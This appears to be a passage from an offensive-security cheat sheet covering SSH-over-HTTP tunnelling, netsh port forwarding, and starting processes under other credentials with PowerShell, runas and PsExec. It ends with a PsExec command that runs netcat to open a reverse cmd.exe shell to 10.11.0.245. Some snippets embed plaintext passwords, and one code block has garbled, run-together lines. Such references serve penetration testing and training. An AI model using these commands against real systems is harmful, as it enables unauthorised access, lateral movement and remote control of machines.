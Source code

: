 #### HTTP Tunnel: SSH Over HTTP <a id="http-tunnel-ssh-over-http"></a>

```bash
# Server - open port 80. Redirect all incoming traffic to localhost:80 to localhost:22
hts -F localhost:22 80

​# Client - open port 8080. Redirect all incoming traffic to localhost:8080 to 192.168.1.15:80
htc -F 8080 192.168.1.15:80​# Client - connect to localhost:8080 -> get tunneled to 192.168.1.15:80 -> get redirected to 192.168.1.15:22ssh localhost -p 8080
```

#### Netsh - Windows Port Forwarding <a id="netsh-windows-port-forwarding"></a>

```bash
# requires admin
netsh interface portproxy add v4tov4 listenaddress=localaddress listenport=localport connectaddress=destaddress connectport=destport
```

### RunAs / Start Process As <a id="runas-start-process-as"></a>

#### PowerShell <a id="powershell"></a>

```bash
# Requires PSRemoting
$username = 'Administrator';$password = '1234test';$securePassword = ConvertTo-SecureString $password -AsPlainText -Force;$credential = New-Object System.Management.Automation.PSCredential $username, $securePassword;Invoke-Command -Credential $credential -ComputerName COMPUTER_NAME -Command { whoami }

​# without PSRemoting
cmd> powershell Start-Process cmd.exe -Credential (New-Object System.Management.Automation.PSCredential 'username', (ConvertTo-SecureString 'password' -AsPlainText -Force))​

# without PS Remoting, with arguments
cmd> powershell -command "start-process cmd.exe -argumentlist '/c calc' -Credential (New-Object System.Management.Automation.PSCredential 'username',(ConvertTo-SecureString 'password' -AsPlainText -Force))"
```

#### CMD <a id="cmd"></a>

```bash
# Requires interactive console
runas /user:userName cmd.exe
```

#### PsExec <a id="psexec"></a>

```bash
psexec -accepteula -u user -p password cmd /c c:\temp\nc.exe 10.11.0.245 80 -e cmd.exe
```

